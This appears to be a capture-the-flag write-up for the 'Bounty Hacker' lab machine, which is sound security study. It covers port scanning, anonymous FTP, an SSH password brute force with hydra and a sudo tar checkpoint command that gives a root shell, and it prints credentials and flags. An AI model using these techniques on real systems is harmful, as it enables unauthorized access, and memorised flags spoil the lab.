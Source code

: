 <head>
<h1><center>Bounty Hacker</center></h1>
</head>

## Description

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!

<br>

## Enumeration

We are provided with the IP of the machine.

### Port Scan

&nbsp;&nbsp;Basic port scan shows that there are three open ports on the machine.

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Port 80

The website contains a picture and quotes by some poeple.
<img src="./images/web.png">

Directory Scan showed nothing useful..


```
/.hta                 (Status: 403) [Size: 277]

/.htpasswd            (Status: 403) [Size: 277]

/.htaccess            (Status: 403) [Size: 277]

/images               (Status: 301) [Size: 313] [--> http://10.10.11.233/images/]

/index.html           (Status: 200) [Size: 969]                                  

/server-status        (Status: 403) [Size: 277]
```


#### Port 21

Here we have anonymous login to FTP.

It has two files 
- locks.txt
- task.txt

locks.txt

```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
 
task.txt

```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

<br>

## SSH

I realized that `locks.txt` possibly contain the password of some user.
I quickly listed out all the possible usernames that I have seen on the website and of course from task.txt

users 

```
spike
jet
ed
faye
lin
```

I then used [hydra](https://www.kali.org/tools/hydra/) to bruteforce the combination.

```
username : lin
passwd   : RedDr4gonSynd1cat3
```

After logging in we find user flag in lin's home directory.

```
THM{CR1M3_SyNd1C4T3}
```

<br>

##  Privilege Escalation

Basic enumeration `sudo -l` showed that user lin can run `/bin/tar` as root..🤩

Heading over to GTFObins gave this command 

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

This gives us the root shell..💀

root flag

```
THM{80UN7Y_h4cK3r}
```
